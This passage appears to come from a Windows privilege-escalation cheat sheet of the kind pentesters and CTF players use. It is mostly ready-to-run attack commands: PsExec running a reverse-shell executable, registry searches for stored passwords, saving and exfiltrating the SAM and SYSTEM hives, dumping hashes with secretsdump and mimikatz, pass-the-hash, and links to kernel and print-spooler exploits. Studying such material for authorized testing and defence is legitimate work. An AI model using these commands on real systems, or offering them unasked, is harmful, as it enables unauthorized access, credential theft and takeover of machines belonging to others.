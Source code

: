     PsExec64.exe /accepteula -i -u admin -p password C:\Temp\reverse.exe  
    
### Creds in Registry 
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s 
### SAM and SYSTEM Files
    %SYSTEMROOT%\repair\SAM
    %SYSTEMROOT%\System32\config\RegBack\SAM
    %SYSTEMROOT%\System32\config\SAM
    %SYSTEMROOT%\repair\system
    %SYSTEMROOT%\System32\config\SYSTEM
    %SYSTEMROOT%\System32\config\RegBack\system 
### Extracting SAM and SYSTEM   

[CVE-2021-36934, the SeriousSAM local privilege escalation](https://github.com/HuskyHacks/ShadowSteal)  

Manually or use [mimikatz](https://github.com/gentilkiwi/mimikatz) 

Manually:

     reg.exe save HKLM\SAM sam.bak 
     reg.exe save HKLM\SYSTEM system.bak 
     *transfer files to attack box then dump* 
     python3 /usr/local/bin/secretsdump.py -sam sam.bak -system system.bak LOCAL 

Mimikatz: 

     privilege::debug 
     token::elevate 
     lsadump::sam  
     
*then crack hashes or use pass the hash to login* 
[Online hash cracker](https://crackstation.net/) 
     

## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"     
    wmic qfe get Caption,Description,HotFixID,InstalledOn     
### Tools
https://github.com/bitsadmin/wesng   
https://github.com/rasta-mouse/Watson   
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

## Misc  
[Print Demon](https://windows-internals.com/printdemon-cve-2020-1048/)  
[SYSTEM Nightmare](https://github.com/GossiTheDog/SystemNightmare) Print nightmare implementation   
[CVE 2019-1388](https://github.com/jas502n/CVE-2019-1388)   
____   
